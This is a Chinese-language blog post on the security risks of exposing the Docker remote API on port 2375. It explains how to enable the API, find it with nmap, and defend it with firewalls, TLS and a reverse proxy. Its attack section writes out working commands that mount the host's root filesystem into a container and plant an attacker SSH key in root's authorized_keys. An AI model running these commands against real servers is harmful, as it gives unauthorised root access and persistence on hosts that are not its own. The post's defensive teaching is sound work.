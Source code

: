 ```yaml
---
layout: post
title: Docker 远程API安全问题
date: 2023-09-17 12:33:24
description: Docker 远程API安全问题
keywords: docker, remote-api, secure
comments: true
categories: secure
tags: [docker, remote-api, secure]
---
```


{% img /images/post/2023/09/docker-vul.jpg 400 300 %}

[Docker](<https://en.wikipedia.org/wiki/Docker_(software)>) 为软件开发提供了很多便利，它允许软件在隔离的容器中运行，确保软件的一致性和可移植性。这意味着无论在哪个环境中，软件都能够以相同的方式运行，无需担心底层系统的差异，Docker 的镜像机制同时也让软件的部署和分发变得更加简单。尽管 Docker 提供了很多强大的功能，但如果这些功能没有使用好，那么它不仅无法发挥作用，还可能会带来严重的安全隐患，今天我们就来介绍下 Docker 下的远程 API 安全问题。

<!--more-->

## 攻击手法

首先我们来看下利用 Docker 远程 API 是如何进行攻击，下面的例子展示了通过 Docker 容器拿到主机的 shell 权限。

```bash
# 使用Docker API创建容器
docker -H 192.168.1.10:2375 run -it -v /:/mnt 8e01a1d0a1dd /bin/sh
# 将本地的SSH公钥添加到容器中
echo "黑客SSH公钥" >> /mnt/.ssh/authorized_keys
# 本地使用私钥登陆主机
ssh root@192.168.1.10
```

- 通过 Docker 的`-H`命令连上远程服务器上的 Docker API，这里的`192.168.1.10`是我们假设的一个主机 IP 地址，`2375`是 Docker 远程 API 常用的端口号。
- 利用 Docker 远程 API`docker run`新建一个容器，这里的`8e01a1d0a1dd`是一个远程服务器存在的镜像 ID，至于为什么可以知道这个镜像 ID，我们后面会介绍。
- 新建容器时将远程服务器的根目录`/`挂载到容器的`/mnt`目录下，这样容器就可以访问到远程服务器的根目录。
- 使用 Docker 的交互模式`-it`进入新建好的容器中。
- 进入容器后可以先查看下挂载目录下的 ssh 目录：`ls /mnt/.ssh`，确认存在相关文件了再执行`echo`语句。
- `echo`语句是将攻击者本地的公钥写到远程服务器的 SSH 授权文件中，这样攻击者就可以使用自己的私钥登陆远程服务器了。

整个过程看起来很简单，但要成功执行这个攻击，需要开启 Docker 的远程 API。

## 开启 Docker 远程 API

Docker 远程 API 也有很多用处，比如可以通过远程 API 来管理 Docker 集群，或者通过远程 API 来管理远程服务器上的 Docker 容器，这样就不需要登录到远程服务器上来管理容器了。一些 Docker 的图形化管理工具或 Docker 监控管理工具就是通过远程 API 来管理 Docker 的。

开启 Docker 的远程 API，可以通过修改 Docker 的配置文件（`/lib/systemd/system/docker.service`或者`/etc/systemd/system/docker.service.d/override.conf`）来进行开启：

```diff
# /lib/systemd/system/docker.service 文件
[Service]
-ExecStart=/usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
+ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375 --containerd=/run/containerd/containerd.sock
```

在 `ExecStart` 中添加`-H tcp://0.0.0.0:2375`即可，然后重新加载守护进程和重启 Docker 服务：

```bash
# 重新加载守护进程
sudo systemctl daemon-reload
# 重启Docker
sudo systemctl restart docker.service
```

我们可以验证一下 Docker 远程 API 是否开启成功：

```bash
$ sudo netstat -tulpn | grep 2375
tcp6       0      0 :::2375                 :::*                    LISTEN      757/dockerd
```

可以看到是正常监听在`2375`端口上了。

## 发现 Docker 远程 API

假设有一台服务器上开启了 Docker 远程 API，我们要如何发现服务器上有这个服务呢？这里可以用[Nmap](https://nmap.org/)工具来进行扫描。Nmap 是一个开源的网络扫描和安全审计工具。它被设计用来发现设备在网络上运行和查找开放的网络端口。

首先我们用 Nmap 扫描一下远程服务器上有哪些开放的端口：

```bash
sudo nmap -sS -T5 192.168.1.10 -p-
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 19:10 CST
Nmap scan report for 192.168.1.10
Host is up (0.00034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
2375/tcp open  docker
MAC Address: AX:D:EF:F2:CA:46 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 4.77 seconds
```

可以看到有 2 个开放端口：22 和 2375，其中 22 是 SSH 服务，2375 是 Docker 服务。到这里我们就可以基本确认了服务器上开启了 Docker 远程 API 服务，但我们还是可以进一步确认一下服务信息。

```bash
nmap -sTV -p 2375 192.168.1.10
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 19:10 CST
Nmap scan report for 192.168.1.10
Host is up (0.089s latency).

PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 24.0.6 (API 1.43)
Service Info: OS: linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.35 seconds
```

可以看到 2375 端口确实是 Docker 服务，并且还检查出了 Docker 的版本信息。现在我们可以用 Docker 命令来连接远程服务器上的 Docker 服务了，比如我们可以查询服务器上 Docker 更加详尽的版本信息：

```bash
$ docker -H 192.168.1.10:2375 version

Server: Docker Engine - Community
 Engine:
  Version:          24.0.6
  API version:      1.43 (minimum version 1.12)
  Go version:       go1.20.7
  Git commit:       1a79695
  Built:            Mon Sep  4 12:31:57 2023
  OS/Arch:          linux/arm64
  Experimental:     false
 containerd:
  Version:          1.6.22
  GitCommit:        8165feabfdfe38c65b599c4993d227328c231fca
 runc:
  Version:          1.1.8
  GitCommit:        v1.1.8-0-g82f18fe
 docker-init:
  Version:          0.19.0
  GitCommit:        de40ad0
```

还可以查看服务器上 Docker 的镜像信息（所以在最开始的示例中我们可以知道服务器上有哪些镜像 ID）：

```bash
# 查看远程服务器上的镜像
$ docker -H 192.168.1.10:2375 images
REPOSITORY    TAG       IMAGE ID       CREATED        SIZE
hello-world   latest    8e01a1d0a1dd4 months ago   9.14kB
```

## Docker 远程 API 的风险

Docker 远程 API 是一个强大的工具，允许用户远程管理和控制 Docker 容器。但是，如果这个 API 被黑客恶意利用，后果可能是灾难性的。在轻微的情况下，黑客可以利用这个 API 在服务器上随意创建和运行容器。例如，他们可能会部署**加密货币挖矿容器**，这样你的服务器资源就会被滥用来为黑客挖矿，从而为他们赚取利润，而你可能完全不知情。此外，黑客还可以创建用于分布式拒绝服务（DDoS）攻击的容器，也被称为**肉鸡**。这意味着你的机器可能会被用作发起大规模网络攻击的工具，这不仅会损害你的机器的性能，还可能导致你面临法律责任。

更为严重的是，如之前的示例所示，黑客可以通过 Docker 远程 API 获得对主机的完全 shell 访问权限。这不仅仅是对单台服务器的威胁。如果这台服务器是连接到企业内部网络的**关键节点**，那么黑客就有可能利用这个入口点进入整个企业网络。一旦他们获得了这样的访问权限，他们可以窃取敏感数据、破坏关键系统或进行其他恶意活动。这种入侵可能导致企业面临巨大的经济损失、品牌声誉受损，甚至可能违反数据保护法规，导致法律诉讼。

我们在访问 Docker 远程 API 时 Docker 也会提示相关的风险，具体信息可以看[Docker 官方文档](https://docs.docker.com/engine/security/#docker-daemon-attack-surface)。

```bash
WARNING: API is accessible on http://0.0.0.0:2375 without encryption.
         Access to the remote API is equivalent to root access on the host. Refer
         to the 'Docker daemon attack surface' section in the documentation for
         more information: https://docs.docker.com/go/attack-surface/
```

## 现实世界

可能有人会问，如果 Docker 远程 API 有这么大的安全风险，那应该没有人会开启这个服务吧？其实不然，我们可以用网络空间搜索引擎[ZoomEye](https://www.zoomeye.org/)来搜索一下目前全球开启了 Docker 远程 API 的服务器有多少：

{% img /images/post/2023/09/zoomeye.png 1000 600 %}

可以看到全球有 700 多台服务器上开启了 Docker 远程 API，有些人可能不了解 Docker 远程 API 的安全问题，有些人可能是因为一些环境而默认开启的，这样服务器就会面临被攻击的风险。

## 如何防范

最好的防范措施就是不要开启 Docker 远程 API，如果确实需要开启，那么就要对 Docker 远程 API 进行安全配置，下面列举了一些开启 Docker 远程 API 的安全措施：

- 限制特定 IP 访问：如果你想允许特定的 IP 地址访问 Docker 远程 API，可以使用防火墙规则（如 iptables）来限制只允许受信任的 IP 地址访问端口。
- 基于证书的身份验证：Docker 支持使用 TLS 证书进行身份验证，启动 Docker 远程 API 时指定证书路径，客户端也需要使用相应的证书来连接到 Docker 远程 API。
- 用户名密码认证：Docker 远程 API 本身不支持基于用户名和密码的身份验证。但你可以使用反向代理（如 Nginx 或 Apache）来为 Docker API 提供这种身份验证。

## 总结

在这篇文章中，我们介绍了 Docker 远程 API 的安全问题，以及如何发现和利用 Docker 远程 API 进行攻击。Docker 远程 API 是一个强大的工具，但如果没有安全配置，那么它就会成为一个安全隐患。因此，我们应该尽可能地避免开启 Docker 远程 API，如果确实需要开启，那么就要对 Docker 远程 API 进行安全配置。
